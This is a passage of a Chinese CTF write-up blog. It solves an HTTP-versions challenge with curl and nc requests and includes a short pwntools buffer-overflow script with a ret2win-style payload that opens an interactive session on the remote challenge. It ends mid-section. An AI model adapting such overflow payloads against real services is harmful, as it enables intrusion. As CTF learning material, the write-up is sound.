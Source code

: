 >  之前 Tailscale，upnpc 之类的东西用得挺舒服的，联机游戏玩得挺爽的，但是这方面的底层原理， 我还是一点也不懂啊 ... 并且这东西看起来不像是一两天就能搞定的，慢慢学吧。

### 🌐 ✅ It's all about HTTP

跨越长城，走向世界！

这道题需要使用五个不同的 HTTP 版本向题目发送请求，解法如下：

- HTTP/0.9: `echo 'GET /' | nc IP PORT`
- HTTP/1.0: `curl --http1.0 http://IP:PORT`
- HTTP/1.1: 浏览器访问即可
- HTTP/2.0: `curl --http2 -k https://IP:PORT`
- HTTP/3.0: `curl3 --http3-only -k https://IP:PORT`

{%image https://imgsrc.baidu.com/forum/pic/item/c9fcc3cec3fdfc03471f679c923f8794a4c226ab.jpg %}

> HTTP/0.9 ... 去年在做 [HTTP 集邮册](/2023/11/04/hackergame-2023/#📶-✅-HTTP-集邮册)的时候，无意间认识到了这个东西，没想到它在一年后还在追我。
>
> HTTP/3 ... 国内运营商对 UDP 的态度都是天天丢包，爱搭不理，所以在我自己的上网配置上，直接阻止了所有 HTTP/3 的请求。我还特地找了另外一台机子做的这一问。

### 🤯 ⭕ Pwn~ 应声倒下

没有 pwn 基础，因此只是现学现卖地做出了第一个 flag。

#### ✍️ ✅ N 个人各自有着自己的秘密

[堆栈平衡](https://huzai9527.github.io/2020/12/12/PWN-%E5%A0%86%E6%A0%88%E5%B9%B3%E8%A1%A1/)。在比赛第二天晚上，给出了一篇[博文](https://blog.csdn.net/Myon5/article/details/131594204)作为提示，但在当天上午我就已经搜到了它，并且照着拿到了 flag。

```python 解题脚本
from pwn import *
import time
p=remote("IP", PORT)
payload = b"a" * (0x40+8)+ p64(0x40117A) + p64(0x401156)
print(p.recvline())
p.send(payload)
p.interactive()
```

#### 📚 ❌ 魔法禁书目录

[格式化字符串攻击](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_8)。文档中使用的是 `gef` 工具，但 ctf-wiki 是 Python 2 时代编写的，严重过时，不仅现在的题目由 32 位变成了 64 位，`gef` 的界面也早已变化，我根本找不到格式化字符串是 `printf` 的第几个参数，穷举失败后作罢。

#### 💸 ❌ 寻￥环游记

pwn 困难 ... 直接放弃（逃）

### 🐍 ⭕ Online Judge

A ✌️，带我走吧 😭😭😭😭😭😭😭

#### 🤏 ✅ Uncontrollable
